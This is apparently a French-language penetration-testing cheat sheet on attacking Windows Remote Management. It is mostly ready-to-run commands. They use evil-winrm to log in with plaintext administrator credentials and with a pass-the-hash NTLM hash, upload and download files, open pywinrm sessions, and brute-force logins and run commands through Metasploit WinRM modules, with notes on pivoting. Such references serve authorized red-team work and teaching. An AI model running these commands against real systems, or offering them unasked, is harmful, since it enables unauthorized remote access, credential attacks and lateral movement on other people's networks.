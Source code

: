 # WINRM

## evil-winrm

* [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

```sh
ruby evil-winrm.rb -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!' -s '/home/foo/ps1_scripts/' -e '/home/foo/exe_files/'
```

### avec hash ntlm et à travers un pivot:

```sh
evil-winrm -i 172.16.1.20 -u katwamba -H 14a71f9e65448d83e8c63d46355837c3
```

### commandes pratiques:

```sh
upload <fichier>
download <fichier>
```

## pywinrm

```sh
sudo pip install pywinrm
python
session = winrm.Session('<IPorHost>', auth=('administrator','<password here>')
```

## brute force: metasploit

use auxiliary/scanner/winrm/winrm_login

## lancer une commande

use auxiliary/scanner/winrm/winrm_cmd

## pivot sur windows

winrs -?
Enter-PSSession
